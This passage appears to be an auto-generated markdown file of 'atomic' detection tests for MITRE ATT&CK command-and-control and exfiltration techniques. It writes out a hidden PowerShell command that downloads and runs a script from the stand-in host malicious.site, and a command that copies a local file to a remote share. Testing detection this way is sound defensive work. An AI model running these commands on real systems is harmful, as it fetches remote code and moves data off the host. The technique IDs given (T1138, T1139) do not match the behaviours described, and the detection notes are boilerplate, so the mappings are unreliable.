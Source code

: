 ### Description
Simulates beaconing to external command servers to evaluate detection capability for MITRE tactic **Command and Control**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString(\'http://malicious.site/c2.ps1\')"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of beaconing to external command servers on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1138**


## ✅ T1139 – Copying data to removable media or network

### Description
Simulates copying data to removable media or network to evaluate detection capability for MITRE tactic **Exfiltration**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell -c "Get-Content C:\data.txt | Out-File \\10.10.10.10\share\data.txt"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of copying data to removable media or network on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1139**
